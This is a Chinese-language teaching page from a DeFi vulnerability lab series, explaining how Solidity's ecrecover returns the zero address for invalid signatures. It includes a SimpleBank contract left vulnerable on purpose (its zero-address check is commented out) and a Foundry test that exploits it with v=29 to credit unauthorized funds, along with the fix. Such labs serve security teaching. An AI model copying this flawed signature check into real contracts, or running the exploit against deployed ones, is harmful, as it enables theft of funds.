 [ecrecover.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/ecrecover.sol)

# ecRecover 返回(0)地址

**名称：** ecrecover 返回(0)地址

**说明：** 在 SimpleBank 合约中，转账函数将消息哈希和签名（v、r、s 值）作为输入。 它恢复签名者地址并检查它是否等于 Admin。 该漏洞在于，当签名参数无效时，ecrecover函数可能会返回0x0地址，如果v值不是27或28，则会返回(0)地址。

**解决措施：**

验证 ecrecover 的结果不为 0，或者使用 OpenZeppelin 的 ECDSA 库。

**参考：**

https://twitter.com/1nf0s3cpt/status/1674268926761668608

https://github.com/code-423n4/2021-09-swivel-findings/issues/61

https://github.com/Kaiziron/numen_ctf_2023_writeup/blob/main/wallet.md

**SimpleBank 合约样例:**

```jsx
contract SimpleBank {
    mapping(address => uint256) private balances;
    address Admin; //default is address(0)

    function getBalance(address _account) public view returns (uint256) {
        return balances[_account];
    }

    function recoverSignerAddress(
        bytes32 _hash,
        uint8 _v,
        bytes32 _r,
        bytes32 _s
    ) private pure returns (address) {
        address recoveredAddress = ecrecover(_hash, _v, _r, _s);
        return recoveredAddress;
    }

    function transfer(
        address _to,
        uint256 _amount,
        bytes32 _hash,
        uint8 _v,
        bytes32 _r,
        bytes32 _s
    ) public {
        require(_to != address(0), "Invalid recipient address");

        address signer = recoverSignerAddress(_hash, _v, _r, _s);
        console.log("signer", signer);
        //Mitigation
        //require(signer != address(0), "Invalid signature");
        require(signer == Admin, "Invalid signature");

        balances[_to] += _amount;
    }
}
```

***\*测试方法:\****

仿真测试--contracts src/test/***\*ecrecover.sol\**** -vvvv

```jsx
// Function to test a ecRecover vulnerability
    function testecRecover() public {
        // Emits a log with the balance of the current contract before exploitation
        emit log_named_decimal_uint(
            "Before exploiting, my balance",
            SimpleBankContract.getBalance(address(this)),
            18
        );

        // Generates a message hash
        bytes32 _hash = keccak256(
            abi.encodePacked("\\x19Ethereum Signed Message:\\n32")
        );

        // Signs the generated hash using vm.sign function. Here, 1 represents the account index
        // The returned variables r and s are part of the ECDSA signature (Elliptic Curve Digital Signature Algorithm)
        (, bytes32 r, bytes32 s) = vm.sign(1, _hash);

        // Sets the v variable to 29
        // Typically in Ethereum, v is 27 or 28. When v is neither 27 nor 28, 
        // the ecrecover function used for signature validation will return address(0)
        uint8 v = 29;

        // Calls the transfer function of the SimpleBankContract with an incorrect v value
        // If SimpleBankContract does not correctly validate the v value of the signature,
        // this could lead to an unauthorized transfer
        SimpleBankContract.transfer(address(this), 1 ether, _hash, v, r, s);

        // Emits a log with the balance of the current contract after the exploit
        emit log_named_decimal_uint(
            "After exploiting, my balance",
            SimpleBankContract.getBalance(address(this)),
            18
        );
    }
```

**红色框：返回零地址。**

![img](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fe8189c2a-67a9-4ddc-8a03-be3b2bdcce6a%2FUntitled.png?table=block&id=5f54d930-33e2-4f0a-87d5-98ce4bcb4a11&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)